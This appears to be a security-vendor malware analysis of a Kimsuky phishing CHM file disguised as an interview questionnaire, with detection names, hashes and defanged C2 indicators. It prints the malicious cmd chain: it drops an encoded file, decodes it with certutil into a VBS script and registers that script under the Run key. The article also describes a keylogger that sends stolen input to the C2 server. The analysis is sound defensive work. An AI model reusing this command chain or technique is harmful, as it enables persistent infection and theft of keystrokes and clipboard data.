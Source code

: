 
Figure 4. CHM disguised as a questionnaire

The CHM holds a malicious script, and, like the CHM malware covered before, it uses a shortcut object (ShortCut). The shortcut object is called through the Click method and the command in Item1 is executed. The command executed through ‘InterviewQuestionnaire(***).chm’ is as follows.

Executed Command
cmd, /c echo [Encoded Command] > “%USERPROFILE%\Links\Document.dat & start /MIN certutil -decode “%USERPROFILE%\Links\Document.dat” “%USERPROFILE%\Links\Document.vbs” & start /MIN REG ADD HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v Document /t REG_SZ /d “%USERPROFILE%\Links\Document.vbs” /f’



Figure 5. Malicious Script within CHM

Thus, the encoded command is saved to %USERPROFILE%\Links\Document.dat when the CHM is executed. The command that has been decoded by Certutil is saved to %USERPROFILE%\Links\Document.vbs. The threat actor also registered Document.vbs to the Run key (HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run) to ensure the malicious script would run persistently. Ultimately, Document.vbs executes the PowerShell script in hxxp://mpevalr.ria[.]monster/SmtInfo/demo.txt.


Figure 6. (Top) A portion of Document.vbs’s code / (Bottom) A portion of the vbs code uncovered in a past report

The URL that Document.vbs connects to is currently unavailable, but a script assumed to have been downloaded from this address has been found. The confirmed script file is responsible for intercepting a user’s key inputs before saving them in a certain file and sending that file to the threat actor. In addition to reading the caption of the currently running ForegroundWindow and keylogging, it periodically checks the clipboard contents and saves them to the %APPDATA%\Microsoft\Windows\Templates\Pages_Elements.xml file. Afterward, it sends this file to hxxp://mpevalr.ria[.]monster/SmtInfo/show.php.


Figure 7. (Top) A portion of demo.txt / (Bottom) A portion of the PowerShell script code from a past report

As can be seen from Figure 6 and Figure 7, Document.vbs (VBS script file) and demo.txt (PowerShell script file) have the same format as the malware that was analyzed in the ‘Analysis Report on Malware Distributed by the Kimsuky Group’ published on ATIP last year. With this in mind, users should take extreme caution as the Kimsuky group appears to be distributing phishing emails with malware strains in various forms like Word files and CHM.
[File Detection]
Dropper/CHM.Generic (2023.03.07.00)
Data/BIN.Encoded (2023.03.07.00)
Downloader/VBS.Agent.SC186747 (2023.03.07.00)
Trojan/PowerShell.Agent.SC186246 (2023.02.09.00)
[Behavior Detection]
Execution/MDP.Cmd.M4230
[IOC]
MD5
726af41024d06df195784ae88f2849e4 (chm)
0f41d386e30e9f5ae5be4a707823fd78 (dat)
89c0e93813d3549efe7274a0b9597f6f (vbs)
9f560c90b7ba6f02233094ed03d9272e
C2
hxxp://mpevalr.ria[.]monster/SmtInfo/demo.txt
hxxp://mpevalr.ria[.]monster/SmtInfo/show.php
Subscribe to AhnLab’s next-generation threat intelligence platform ‘AhnLab TIP’ to check related IOC and detailed analysis information.
